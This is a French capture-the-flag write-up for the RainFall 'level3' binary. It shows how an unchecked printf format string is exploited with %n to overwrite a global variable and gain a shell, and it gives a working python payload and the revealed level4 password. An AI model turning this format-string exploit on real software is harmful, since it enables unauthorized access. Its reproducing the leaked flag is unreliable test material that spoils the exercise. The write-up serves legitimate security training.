 Nous remarquons que le programme utilise un fgets, puis met la sortie de fgets en premier argument du printf, ce qui est une faille de sécurité. Nous pouvons mettre une valeur de notre choix à certaines adresses, grâce à l'utilisation du flag %n.

L'assembleur nous montre une comparaison entre 64 et la variable global à l'adresse `0x804988c`, si la comparaison réussi l'on peut acceder au shell.

```asm
 80484da:	a1 8c 98 04 08       	mov    0x804988c,%eax
 80484df:	83 f8 40             	cmp    $0x40,%eax
```

Nous recherchons l'adresse de début du buffer à l'aide de printf.

```bash
level3@RainFall:~$ ./level3 
aaaa%p.%p.%p.%p
aaaa0x200.0xb7fd1ac0.0xb7ff37d0.0x61616161
```

Ensuite, il nous suffit de stipuler l'adresse de la variable que l'on veut modifier, ainsi que son offset dans la stack et on remplit de 64 charactères le buffer afin de placer la valeur de 64 dans la variable globale.

```bash
level3@RainFall:~$ (python -c 'print "\x8c\x98\x04\x08%60x%4$n"';cat) | ./level3 
��                                                         200
Wait what?!
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```
